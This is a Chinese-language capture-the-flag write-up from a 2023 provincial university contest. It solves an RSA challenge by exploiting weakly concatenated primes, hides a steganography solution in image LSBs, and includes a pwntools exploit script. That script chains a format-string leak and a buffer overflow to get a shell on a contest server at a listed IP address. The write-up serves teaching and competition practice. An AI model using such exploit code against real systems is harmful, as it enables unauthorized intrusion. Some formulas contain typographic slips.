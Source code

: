 #  2023年第三届陕西省大学生网络安全技能大赛--本科高校组WriteUp

???+ abstract

    战队名称：**水狗献花拜佛队战队**
    
    队伍排名：第**123**名

    ![image-20230603160641535](./assets/image-20230603160641535.png)

## 解题思路

### Crypto

#### **HaM3**

1. 题目

    ```python
    from Crypto.Util.number import *
    from secret import flag

    p, q = getPrime(64), getPrime(64)
    P = int(str(p) + str(q))
    Q = int(str(q) + str(p))
    PP = int(str(P) + str(Q))
    QQ = int(str(Q) + str(P))
    assert isPrime(PP) and isPrime(QQ)
    n = PP * QQ
    m = bytes_to_long(flag)
    c = pow(m, 65537, n)
    print('n =', n)
    print('c =', c)
    '''
    n = 142672086626283587048017713116658568907056287246536918432205313755474498483915485435443731126588499776739329317569276048159601495493064346081295993762052633
    c = 35771468551700967499031290145813826705314774357494021918317304230766070868171631520643911378972522363861624359732252684003796428570328730483253546904382041
    '''
    ```

2. 题目分析

    在生成 $p$ , $q$ 的时候，先生成两个64位的较小素数，然后基于这两个小素数直接连接式组合，得到了大素数，最后乘起来得到了最后的 $n$ 。

    这种直接组合受到了十进制位数的影响的，即生成的素数有是20位十进制数的可能，也有可能是19位十进制数的可能。这样根据排列组合就有三种情况：两个20位十进制数的素数、一个19位，一个20位十进制数的素数，也有可能是两个19位十进制数的素数。

    首先设 $p$ , $q$ 均为 $10^{19}$ ,发现组合后数值比n大，然后设 $p$ , $q$ 均为 $10^{19}−1$ ，发现组合后数值比n小了。所有一个是20位一个是19位。

    设 $p$ 的位数是20，$q$ 的位数是19，则：

    $$
    n=[pqqp]*[qppq]
    $$

    $$
    [pq]=10^*19p+q
    $$

    $$
    [qp]=10^*20q+p
    $$

    $$
    [pqqp]=10^*58p+10^*39q+10^*20q+p
    $$

    $$
    [qppq]=10^*59q+10^*39p+10^*19p+q
    $$

    带入计算得：

    $p^2$ 的系数是 $10 ^{97}+ 10^{77}+ 10^{39}+ 10^{19}$

    $q^2$ 的系数是 $10 ^{98}+ 10^{78}+ 10^{39}+ 10^{20}$

    $p*q$ 的系数是 $10^{117} +10^7{8} +2×10^{59} + 2×10^{58} +10^{39}+1$

    经过分析：在 $10^137$ 往上和 $10^18$ 往下都是只有 $pq$ 的高位和低位，但是 $pq$ 的值的中间一位是不知道的。则：截取 `n - 10 ^ 136 | 10 ^ 136` 和 $n mod 10^{19}$ 就可以得出 $pq$

    即：

    ```python
    n=142672086626283587048017713116658568907056287246536918432205313755474498483915485435443731126588499776739329317569276048159601495493064346081295993762052633
    n-=10**136
    a,b=n//10**136,n%10**19
    print(int(str(a)+str(b)))
    ```

    这样可以得出p*q:

    ```python
    142672086626283587036081295993762052633
    ```

    使用在线工具分解：

    ```python
    p = 9937378783676979077
    q = 14357114660923972229
    ```

    写出解密代码：

    ```python
    from Crypto.Util.number import *

    '''
    n=142672086626283587048017713116658568907056287246536918432205313755474498483915485435443731126588499776739329317569276048159601495493064346081295993762052633
    n-=10**136
    a,b=n//10**136,n%10**19
    print(int(str(a)+str(b)))
    '''

    def decrypt_RSA(c, e, p, q):
        phi = (p - 1) * (q - 1)
        d = inverse(e, phi)
        m = pow(c, d, p * q)
        print(long_to_bytes(m))


    n = 142672086626283587048017713116658568907056287246536918432205313755474498483915485435443731126588499776739329317569276048159601495493064346081295993762052633
    c = 35771468551700967499031290145813826705314774357494021918317304230766070868171631520643911378972522363861624359732252684003796428570328730483253546904382041
    p = 9937378783676979077
    q = 14357114660923972229

    P = int(str(p) + str(q))
    Q = int(str(q) + str(p))
    PP = int(str(P) + str(Q))
    QQ = int(str(Q) + str(P))
    N = PP * QQ
    print(N == n)
    decrypt_RSA(c, 65537, PP, QQ)
    ```

3. 结果

    ![image-20230603160859512](./assets/image-20230603160859512.png)

### PWN

```python title="exp"
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
# p = process('./pwn3')
p = remote("121.196.192.181", 10001)
elf = ELF('./pwn3')
p.recvuntil(b':')
p.sendline(b'2')    #进入格式化字符串漏洞
p.sendlineafter(b'Welcome to Terra_Cotta_Warriors', b'%19$p')
base = int(p.recv(14), 16) - 0x2eb  #得到基址
p_rdi = base + 0x433    #出栈
system = base + 0x29a
ret = base + 0x01a
exit = base + 0x110
payload = b'a' * 0x20 + p64(ret) + p64(system)
p.recvuntil(b'choice :\n')
p.sendline(b'1')    #进入缓冲区溢出漏洞
p.sendlineafter(b"Welcome to Huashan_Mountain", payload)
p.interactive()
```

### Misc

#### 管道

1. 题目
![管道](./assets/%E7%AE%A1%E9%81%93.png)

1. 题目分析

    根据题目利用LSB隐写工具进行爆破

    ![2](./assets/2.jpg)

    ![23](./assets/23.jpg)

    搜寻`flag`关键字

    ![234](./assets/234.jpg)

    得到flag
